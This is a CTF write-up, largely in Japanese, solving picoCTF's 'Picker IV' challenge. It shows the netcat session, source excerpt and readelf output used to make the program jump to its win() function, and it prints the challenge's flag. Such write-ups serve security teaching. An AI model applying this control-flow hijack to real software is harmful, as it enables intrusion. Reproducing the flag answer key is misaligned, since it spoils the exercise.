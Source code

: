 # Picker IV:Binary Exploitation

Can you figure out how this program works to get the flag?\
Connect to the program with netcat: `$ nc saturn.picoctf.net 51785`\
The program's source code can be downloaded [here](https://github.com/colza12/ctf_writeup/blob/main/picoGym%20Exclusive/Picker%20IV/picker-IV.c). The binary can be downloaded [here](https://github.com/colza12/ctf_writeup/blob/main/picoGym%20Exclusive/Picker%20IV/picker-IV).

# Solution

とりあえず、`nc saturn.picoctf.net 51785`を実行してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': ffffff
You input 0xffffff
Segfault triggered! Exiting.
```
フラグが取れそうな関数のアドレスを指定すればフラグが出てきそうだ。
ソースコードを見てみる。
```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }
```
winを見つけた。`readelf -a`でアドレスを確認すると、
```
63: 000000000040129e   150 FUNC    GLOBAL DEFAULT   15 win
```
とあった。
もう一度、実行してみて`40129e`を入力してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```
フラグが得られた。

`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}`

